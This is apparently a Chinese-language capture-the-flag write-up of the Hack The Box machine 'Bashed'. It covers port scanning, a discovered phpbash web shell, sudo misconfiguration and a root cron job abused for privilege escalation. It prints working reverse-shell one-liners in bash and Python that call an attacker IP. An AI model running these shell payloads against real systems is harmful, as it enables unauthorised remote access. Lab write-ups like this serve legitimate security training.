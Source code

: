 ```yaml
---
title: Bashed Writeup
date: 2020-11-13 05:40:01
category: Hack The Box
---
```


# Bashed Writeup

![](./0.png)

## 0x01 信息收集
先手 `nmap`。
### 1、TCP Scan
``` java
nmap -A -p- -oA nmap/tcp 10.10.10.68
```
就开了一个 80。
- **80**: apache 2.4.18，可能是漏洞版本，开放了 web 页面。

![](./1.png)

### 2、UDP Scan
``` java
nmap -sU -A -p- -oA nmap/udp 10.10.10.68
```
未见开放。

**共开放了 `tcp 80` 端口。**

## 0x02 漏洞利用
### 1、Port 80
浏览器打开主页是 phpbash 的介绍（一个页面命令行），同时翻到子一个子页面给的交互示意动图，可以感觉到这里大概率是个立足点。

![](./2.png)
页面上获取不到更多信息，这个时候又到目录扫描的好时光了，照例 `dirbuster` 默认字典跑一下，既然是 php 站点，后缀先用默认的 `.php`。
扫到可疑文件。

![](./3.png)
/usr/share/dirbuster/wordlists/directory-list-2.3-small.txt
nohup bash -i >& /dev/tcp/10.10.14.2/4444 0>&1

浏览器打开，是一个页面命令行，身份是普通用户 `www-data`。

![](./4.png)

页面下的 shell 多有不便，先弹一个 shell 出来。

这里应该是做了限制，尝试 `bash`、`nc` 均无效，甚至怀疑其了人生是不是做了网络隔离，但是用 `curl` 测试又是通的，遂把其他脚本也试了一轮，最后 `python` 成功反弹。
``` bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.4",4445));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

## 0x03 提权
首先关注一下 sudo 权限配置。
``` bash
sudo -l
```
这个配置意思是 `以 scriptmanager 用户的身份无需密码执行任意命令`。

![](./5.png)
狂喜，跑一个 `id` 看看，返回显示还是普通用户。
``` bash
sudo -u scriptmanager id
```
![](./6.png)
并且尝试花式 `su` 到 `root` 都没用，一律需要输密码，切不上去，人傻了。
``` bash
sudo -u scriptmanager su
sudo -u scriptmanager su -
sudo -u scriptmanager sudo su
```

![](./7.png)
> `su` 需要一个完全互动的 TTY，否则会报错 `su: must be run from a terminal`。切换 TTY：
> ``` bash
> python -c 'import pty; pty.spawn("/bin/bash")'
> ```
> ![](./8.png)

看一下 sudo 版本：`1.8.16`，查到一个漏洞 [CVE-2019-14287](https://paper.seebug.org/1057/)，但是无法利用，似乎还需要当前用户的密码？
毫无头绪的时候思考一下盒子设计逻辑，首先 scriptmanager 肯定是突破口，但又不是管理员，那么是否想让我**用 scriptmanager 做一些 www-data 做不到的事情**？

切换到 `scriptmanager`。
``` bash
sudo -u scriptmanager /bin/bash
```
翻一下这个所属用户为 `scriptmanager` 的文件是否能发现端倪，定位到根目录下的 `scripts` 文件夹。

![](./9.png)
里面有两个文件，根据内容推断出: `scriptmanager 的 python` 脚本执行后会生成一个 `root 的 txt`，说明意味着**这里的 python 文件会以 root 权限执行**，即使暂时不知道原因。

![](./10.png)
所以在这里写入一个 python 的反弹 shell，试跑一下，还是普通用户。

![](./13.png)
![](./11.png)
说明肯定不是由用户来执行，而且 `test.txt` 的更新时间在不停变化，一定有个 root 的计划任务在一直跑这个 `test.py`。此时断开 shell，打开监听，等待计划任务执行。

![](./14.png)
果不其然得到一个 root shell。

![](./12.png)

> 事后查看计划任务，确实。
> 
> ![](./15.png)

## 0x04 攻击节点
信息收集 -> 目录扫描 -> 80.phpbash-RCE(www-data) -> sudo 配置不当切换用户(scriptmanager) -> crontab-python(root)

## 0x05 学到什么
#### 1、渗透的时候不要为了省事疯狂 `ls`，能 `ls -la` 的时候尽量用，避免遗漏重要信息。
#### 2、对于不直接的线索要冷静分析，比如看到一个 NOPASSWD，却不是 root，也不要谎，都是套路。